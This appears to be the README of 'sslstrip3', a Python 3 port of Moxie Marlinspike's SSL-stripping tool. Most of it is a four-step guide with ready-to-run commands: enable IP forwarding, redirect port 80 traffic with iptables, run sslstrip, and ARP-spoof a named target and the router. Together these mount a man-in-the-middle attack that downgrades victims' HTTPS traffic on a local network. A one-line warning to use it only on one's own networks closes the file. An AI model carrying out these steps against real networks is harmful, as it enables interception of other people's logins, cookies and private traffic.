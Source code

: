 # sslstrip3
implementation of moxie marlinspikes sslstrip im python3

Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the 
	command-line options.

	The four steps to getting this working (assuming you're running Linux) 
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
	
	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>
     
     
more info on moxies github

# warning
ssl stripping is prohibited, only try this on your own machines and networks.
